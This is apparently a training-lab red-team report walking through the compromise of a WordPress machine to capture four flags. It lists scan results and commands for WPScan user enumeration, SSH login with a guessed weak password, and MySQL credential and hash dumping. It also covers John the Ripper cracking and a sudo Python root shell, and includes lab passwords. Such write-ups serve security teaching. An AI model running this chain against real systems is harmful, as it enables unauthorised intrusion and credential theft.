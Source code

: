 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

   - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wpu.png)

- Accessing user Michael
    - due to a weak password we were able to guess Michael's password
    - 'ssh michael@192.168.1.110'
    - Password: 'michael'

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/SSH.png)

- Accessing var/www/html as root and using 'grep' to capture flag1.
    - Commands:
        - `cd ../'
        - 'cd var/www'
        - 'cd html/'
        - 'ls'
        - 'grep -IR flag1 *'

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag1.png)

![Flag 1 location](/Images/flag1-location.png "Flag 1 location")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")

